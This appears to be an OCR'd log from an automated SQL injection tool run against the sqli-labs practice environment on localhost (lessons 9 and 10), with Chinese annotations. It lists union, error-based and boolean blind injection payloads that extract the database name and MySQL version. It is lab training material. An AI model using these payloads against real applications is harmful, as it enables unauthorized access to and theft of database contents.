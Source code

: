 盲注成功


尝试盲注
http://127.0.0.1/sqli-labs/Less-9/?id=1'  and length(database())>=4 %23
http://127.0.0.1/sqli-labs/Less-9/?id=1'  and length(database())>=8 %23
http://127.0.0.1/sqli-labs/Less-9/?id=1'  and length(database())>=16 %23
false
..

payload: http://127.0.0.1/sqli-labs/Less-9/?id=1'  and length(database())=8 %23
长度为8
security

盲注成功




url: http://127.0.0.1/sqli-labs/Less-10
判断闭合方式
[   ] [ '  ] [ ')  ] [ '))  ] [ "  ] [ok]
即将开始联合注入

..................
联合注入payload： http://127.0.0.1/sqli-labs/Less-10/?id=1"  and 1 = 0 union select 1,version(),database() %23
..

判断联合查询失败，自动开始报错注入

报错注入payload: http://127.0.0.1/sqli-labs/Less-10/?id=1"  and 0  union SELECT updatexml(1,concat(0x7e,version()),3) %23
判断报错注入失败,没有获取信息，自动开始盲注


尝试盲注
http://127.0.0.1/sqli-labs/Less-10/?id=1"  and length(version())>=4 %23
http://127.0.0.1/sqli-labs/Less-10/?id=1"  and length(version())>=8 %23
false
......
payload: http://127.0.0.1/sqli-labs/Less-10/?id=1"  and length(version())=6 %23
长度为6
5.5.53

盲注成功


尝试盲注
http://127.0.0.1/sqli-labs/Less-10/?id=1"  and length(database())>=4 %23
http://127.0.0.1/sqli-labs/Less-10/?id=1"  and length(database())>=8 %23
http://127.0.0.1/sqli-labs/Less-10/?id=1"  and length(database())>=16 %23
false
..
payload: http://127.0.0.1/sqli-labs/Less-10/?id=1"  and length(database())=8 %23
长度为8
security

盲注成功
